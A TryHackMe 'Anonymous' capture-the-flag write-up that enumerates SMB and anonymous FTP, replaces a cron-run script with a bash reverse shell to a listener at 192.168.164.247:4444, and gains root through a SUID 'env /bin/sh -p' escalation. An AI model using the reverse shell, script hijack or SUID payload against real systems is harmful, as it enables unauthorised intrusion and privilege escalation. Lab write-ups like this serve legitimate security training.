









# TryHackMe: Anonymous

    


## Room Info

| Field | Value |
|---|---|
| **Room** | Anonymous |
| **Platform** | TryHackMe |
| **Difficulty** | Medium (billed as beginner-friendly) |
| **Category** | Boot2root / Misc |
| **OS** | Linux (Ubuntu) |
| **Tools Used** | nmap, `smbclient`, `ftp`, netcat, `find`, GTFOBins |
| **Skills Tested** | SMB share enumeration, anonymous/writable FTP abuse, cron-job timing analysis, reverse shell delivery via a scheduled script, SUID binary privilege escalation |

**Premise:** "Not the hacking group" — a straightforward, well-regarded boot2root box built around a genuinely different initial-access pattern than the usual "find a webshell" or "brute-force a login" route: a **writable file that something else runs automatically on a timer**, rather than something the attacker triggers directly.

---

## Concept Glossary

Read this section first — every technique used below is explained here before it shows up in the walkthrough.

**SMB enumeration with `smbclient`** — SMB (Server Message Block) is the protocol Windows (and Samba, its Linux implementation) uses for file/printer sharing. `smbclient -L <target>` lists available shares without needing valid credentials first, and many Samba configurations allow guest/anonymous access to specific shares — worth checking even on boxes that don't look Windows-flavored, since Samba runs on Linux servers constantly.

**Anonymous FTP as a two-way door** — Anonymous FTP is usually thought of as a read-only information leak (as seen in earlier rooms in this repo). But when the anonymous account also has **write** permissions to a directory, it stops being just a leak and becomes an actual foothold — anything writable over FTP is something an attacker can plant, not just read.

**Proving a script runs on a cron schedule without reading crontab directly** — Rather than needing filesystem access to `/etc/crontab` (which an anonymous FTP session doesn't have), timing behavior can prove a schedule exists: downloading the same log file twice, a minute or two apart, and comparing line counts. If the file has grown between downloads with no user interaction in between, something is appending to it on its own — strong evidence of an automated, timed process (a cron job) rather than a one-off manual run.

**Hijacking a script instead of exploiting a vulnerability** — `clean.sh` itself wasn't buggy or exploitable in the traditional sense — its logic was simple and worked as intended. The actual weakness was **write access to the script combined with something else executing it automatically**. Overwriting the *entire contents* of a legitimately-scheduled script with a reverse shell payload means the next scheduled execution runs the attacker's code instead of the original logic — no vulnerability required, just a permissions mistake plus patience.

**`find / -perm -4000 -type f`** — Searches the whole filesystem for files with the **SUID bit** set — meaning the program runs with the privileges of its *file owner* (often root) rather than the privileges of whoever launches it. This is one of the very first things worth checking on any freshly-landed Linux shell, since SUID binaries are a common (and well-catalogued) privilege escalation vector.

**SUID `env` abuse** — `env` is normally just a small utility for running a command in a modified environment. But if it has the SUID bit set and is owned by root, running `env /bin/sh -p` launches a shell that **inherits `env`'s elevated effective privileges** instead of dropping them — the `-p` flag on `/bin/sh` specifically tells the shell *not* to drop its already-elevated privileges (a safety feature some shells have that would otherwise defeat this technique). GTFOBins documents this exact pattern because `env` is one of many ordinary system utilities that becomes a full privilege escalation primitive the moment it's SUID.

---

## 1. Recon

### 1.1 Nmap scan

**Command:**
```bash
nmap -sV -O 10.128.157.134
```

**Output:**
```
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          vsftpd 2.0.8 or later
22/tcp  open  ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```


**Q: Enumerate the machine. How many ports are open?**
**A: 4**

**Q: What service is running on port 21?**
**A: FTP** (vsftpd 2.0.8 or later)

**Q: What service is running on ports 139 and 445?**
**A: SMB** (Samba smbd 3.X – 4.X)

**Why this combination matters:** SMB *and* FTP both open is a strong hint that file-sharing/transfer is the intended attack surface here, rather than the web app hunting typical of other boxes — so both get enumerated before committing to either one.

---

## 2. SMB Enumeration

**Commands:**
```bash
smbclient -L 10.128.157.134
smbclient //10.128.157.134/pics
```

**Shares found:**
```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
pics            Disk      My SMB Share Directory for Pics
IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
```

**Inside `pics`:**
```
corgo2.jpg
puppos.jpeg
```


**Q: There's a share on the user's computer. What's it called?**
**A: `pics`**

**Why this turned out to be a dead end (and that's fine):** two ordinary image files with no hidden data or unusual permissions — nothing actionable here. Worth noting honestly rather than forcing significance onto it: not every enumerated share leads somewhere, and confirming that quickly (rather than getting stuck steganography-hunting two dog photos) is itself good methodology. FTP was the next logical target.

---

## 3. FTP Enumeration — Finding the Scripts Directory

**Commands:**
```bash
ftp 10.128.157.134
# Name: anonymous
dir
cd scripts
dir
get clean.sh
get removed_files.log
```

**Output:**
```
220 NamelessOne's FTP Server!
230 Login successful.
drwxrwxrwx  2 111  113   4096 Jun 04 2020 scripts

-rwxr-xrwx  1 1000  1000   314 Jun 04 2020 clean.sh
-rw-rw-r--  1 1000  1000  1462 Aug 22 11:29 removed_files.log
-rw-r--r--  1 1000  1000    68 May 12 2020 to_do.txt
```


**Why the permissions on `clean.sh` immediately stand out:**


`-rwxr-xrwx` means the file is executable **and writable by everyone**, including the anonymous FTP account. On a normal system, a script like this being world-writable is already a red flag — combined with anonymous FTP write access being allowed at all, it means this file can be replaced entirely by anyone who connects.

---

## 4. Confirming the Foothold Path

### 4.1 Reading the hint left by the admin

**Command:**
```bash
cat to_do.txt
```
**Output:**
```
I really need to disable the anonymous login... it's really not safe
```


**Why this matters beyond flavor text:** it's an in-universe confirmation that anonymous access is a known, unaddressed risk — exactly the kind of thing a real internal-audit note would say right before an incident.

### 4.2 Understanding what clean.sh actually does

**Command:**
```bash
cat clean.sh
cat removed_files.log
```

**`clean.sh` logic:**
```bash
#!/bin/bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
    echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
    rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

**`removed_files.log` (repeated lines):**
```
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
...
```


**Why the repeated identical log lines are the real evidence, not the script logic itself:** the script's own logic is honestly a bit broken (`[ $tmp_files=0 ]` without spaces is a string comparison bug that always evaluates true in bash, meaning it always takes the "nothing to delete" branch) — but that bug isn't the point. What matters is that `removed_files.log` already contains many repeated lines from **before I ever connected**, which — per the timing-based reasoning in the Concept Glossary — is strong evidence this script is firing on a recurring schedule (a cron job), not something a person runs by hand. That's the actual exploitable fact: something automated is calling this file regularly, and I have write access to it.

---

## 5. Weaponizing clean.sh

### 5.1 Choosing the payload

Reference: [pentestmonkey's Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) — the Bash one-liner was the natural fit, since `clean.sh` is already a Bash script with a shebang, and doesn't need any extra scripting language available on the target.



### 5.2 Overwriting clean.sh locally

**New contents:**
```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.164.247/4444 0>&1
```


**Why replace the entire file rather than append to it:** the original logic isn't needed for this to work — the goal isn't to preserve the cleanup behavior, it's to make sure that whatever process calls this script next executes the reverse shell instead. A full overwrite keeps things simple and guarantees no leftover syntax errors from mixing the old logic with the new payload.

### 5.3 Starting the listener

**Command:**
```bash
nc -nvlp 4444
```


### 5.4 Uploading the weaponized script

**Commands:**
```bash
ftp 10.128.157.134
# Name: anonymous
cd scripts
put clean.sh clean.sh
```


**Why this is the entire attack, in one sentence:** the anonymous FTP account never needed shell access or a vulnerability to exploit — it only needed **write permission to a file that a privileged, scheduled process would run on its own**, and patience for the next scheduled run.

---

## 6. Catching the Shell and Reading user.txt

**Result (after waiting for the cron job to fire):**
```
listening on [any] 4444 ...
connect to [192.168.164.247] from (UNKNOWN) [10.128.157.134] 44042
namelessone@anonymous:~$ ls -la
...
lrwxrwxrwx 1 root root    9 May 11  2020 .bash_history -> /dev/null
-rw------- 1 namelessone namelessone   33 May 11  2020 user.txt
...
namelessone@anonymous:~$ cat user.txt
```


**Worth noting:** `.bash_history` is already symlinked to `/dev/null` on this account by default (not something I did) — a pre-existing anti-forensics/no-logging setup on the box itself, similar to a pattern seen in an earlier writeup in this repo, just configured ahead of time here rather than done live by another attacker.

**Q: user.txt**
**A: Not captured** — the `cat user.txt` output falls just past what's visible in the screenshot. Send it over and I'll fill it in.

---

## 7. Privilege Escalation — SUID env Abuse

### 7.1 Hunting for SUID binaries

**Command:**
```bash
find / -perm -4000 -type f 2>/dev/null
```

**Relevant output:**
```
/usr/bin/passwd
/usr/bin/env
```


**Why `/usr/bin/env` stands out immediately against `/usr/bin/passwd`:** `passwd` being SUID is completely normal and expected on every Linux system (it needs elevated rights to modify `/etc/shadow` when a user changes their own password) — it's not a finding. `env` having the SUID bit, on the other hand, is **not standard** and is a well-known GTFOBins entry, which is exactly why it's the one worth checking further.

### 7.2 Confirming the technique on GTFOBins



**Payload:**
```bash
env /bin/sh -p
```

### 7.3 Getting root

**Command:**
```bash
/usr/bin/env /bin/sh -p
whoami
cat /root/root.txt
```

**Output:**
```
root
```


**Why this worked, step by step:** since `env` is owned by root and has the SUID bit set, it executes with root's *effective* privileges regardless of who launched it. `env /bin/sh -p` uses that elevated context to launch `/bin/sh` — and the `-p` flag matters specifically because without it, some shells will notice their real and effective UIDs don't match and voluntarily drop back down to the calling user's real privileges as a safety measure. `-p` tells the shell to skip that safety check and keep the elevated (root) privileges it inherited from `env`. `whoami` confirming `root` is the direct proof the escalation worked.

**Q: root.txt**
**A: Not captured** — same as above, the flag text falls outside the visible crop. Send it over and I'll add it.

---

## Full Lessons Learned

1. **Not every enumerated resource is the way in — and that's fine to document.** The SMB `pics` share was a genuine dead end, and treating it that way (rather than forcing a false lead) is honest, useful methodology. Real engagements involve plenty of enumeration that goes nowhere; the skill is recognizing that quickly and moving on.

2. **Anonymous FTP with write access is categorically worse than anonymous FTP with read access.** Read-only anonymous access is an information-disclosure risk; write access turns the same misconfiguration into a full remote code execution primitive the moment *anything else* on the system trusts and executes files from that location automatically.

3. **You don't need to see a crontab to prove a cron job exists.** Comparing a log file's contents across two downloads a minute apart — and seeing it grow with no manual interaction in between — is a clean, evidence-based way to infer scheduled execution from the outside, without needing privileged filesystem access.

4. **Exploiting "trust in automation" doesn't require a vulnerability in the traditional sense.** `clean.sh`'s own logic was buggy but not dangerous on its own — the actual security failure was that something privileged executed a file that an unprivileged, anonymous, remote user could fully rewrite. This is a genuinely different mental model from SQLi/webshell-style rooms: the exploit here is patience plus a permissions mistake, not a payload against broken input validation.

5. **SUID hunting should distinguish "expected" from "notable" immediately.** `passwd` being SUID is normal; `env` being SUID isn't. Building the habit of mentally filtering `find / -perm -4000` output against what's *supposed* to be there (rather than treating every SUID hit as equally suspicious) makes real enumeration much faster.

6. **GTFOBins earns its reputation as a first-stop reference, not a last resort.** Once `env` stood out, confirming the exact working payload syntax there — rather than trying to recall or improvise it — removed all guesswork from the final escalation step.

---

## Skills Demonstrated

`SMB Share Enumeration` · `Anonymous/Writable FTP Exploitation` · `Cron Job Inference via Log Timing Analysis` · `Reverse Shell Delivery via Scheduled Script Hijack` · `SUID Binary Enumeration` · `GTFOBins Privilege Escalation (env)`

---

## References

- [TryHackMe — Anonymous](https://tryhackme.com/room/anonymous)
- [GTFOBins — env](https://gtfobins.org/gtfobins/env/)
- [PentestMonkey — Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
